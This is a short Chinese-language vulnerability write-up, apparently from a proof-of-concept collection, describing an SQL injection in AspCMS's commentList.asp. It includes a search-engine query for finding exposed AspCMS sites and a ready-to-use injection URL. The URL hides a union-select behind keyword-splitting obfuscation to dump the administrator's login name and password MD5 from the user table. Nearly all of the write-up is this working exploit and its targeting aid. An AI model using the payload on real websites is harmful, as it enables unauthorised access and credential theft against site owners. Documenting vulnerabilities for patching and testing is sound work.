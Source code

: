 # AspCMS commentList.asp SQL注入漏洞

## 漏洞描述

AspCMS commentList.asp 存在SQL注入漏洞，攻击者通过漏洞可以获取管理员md5的密码

## 漏洞影响

```
AspCMS
```

## 网络测绘

```
app="ASPCMS"
```

## 漏洞复现

通过网站源码响应判断CMS

![img](./images/202202170904613.png)

验证POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](./images/202202170904678.png)

成功获取管理员账号以及密码的MD5
